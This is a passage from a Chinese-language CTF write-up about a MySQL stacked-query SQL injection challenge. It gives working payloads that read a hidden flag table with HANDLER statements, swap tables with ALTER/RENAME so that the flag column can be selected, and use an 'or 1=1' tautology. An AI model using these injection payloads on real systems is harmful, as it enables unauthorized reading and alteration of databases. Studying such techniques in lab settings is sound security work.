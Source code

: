 这里的数字要加上反引号, 否则 mysql 会报错

![20220820234628](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220820234628.png)

想了下 update delete drop insert 都被过滤了好像也没有什么办法 (日志文件 getshell 还没试)

后来了解了一下发现 handler 注入的前提是支持堆查询

参考文章 [https://blog.csdn.net/JesseYoung/article/details/40785137](https://blog.csdn.net/JesseYoung/article/details/40785137)

> Handler 是 Mysql 特有的轻量级查询语句, 类似于 select, 但并不具备 select 语句的所有功能.

一个使用 handler 查询的流程如下

```sql
handler tableName open;
handler tableName read first;
handler tableName read next;
...
handler tableName close;
```

payload

```sql
1'; handler `1919810931114514` open;handler `1919810931114514` read first #
```

![20220820234817](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220820234817.png)

在 wp 中看到其它几种解法, 思路挺好的

> 将 words 和 1919810931114514 表互换

alter 语句介绍 [https://www.runoob.com/mysql/mysql-alter.html](https://www.runoob.com/mysql/mysql-alter.html)

```sql
alter table `words` rename to `words1`;
alter table `1919810931114514` rename to `words`;
alter table `words` change `flag` `id` varchar(100) character utf8_general_ci NOT NULL;
```

查询语句是 `select * from words where id = xx`, 如果没有 id 字段的话会报错

不确定 `character utf8_general_ci NOT NULL;` 是否必须, 本地测试发现没有这段也能运行...

之后提交 `1'or 1=1 #`, 因为 id 的内容是 flag, 查不到, 需要构造永真条件

修改表名的另一种写法

```sql
rename table A to B;
```

> 预编译 + concat 拼接

mysql 预编译的介绍 [https://www.cnblogs.com/micrari/p/7112781.html](https://www.cnblogs.com/micrari/p/7112781.html)
